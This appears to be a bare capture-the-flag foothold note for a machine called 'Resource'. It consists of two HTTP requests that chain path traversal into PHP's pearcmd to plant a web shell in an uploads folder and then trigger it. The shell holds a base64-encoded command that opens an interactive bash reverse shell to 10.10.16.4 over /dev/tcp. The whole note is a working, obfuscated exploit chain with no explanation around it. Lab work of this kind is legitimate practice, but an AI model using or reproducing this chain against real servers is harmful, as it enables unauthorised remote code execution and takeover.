 # Resource

foothold:

GET /index.php?page=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTYuNC8xNDUxNCAwPiYxJw=="));?>+/var/www/itrc/uploads/shell.php

GET /uploads/shell.php


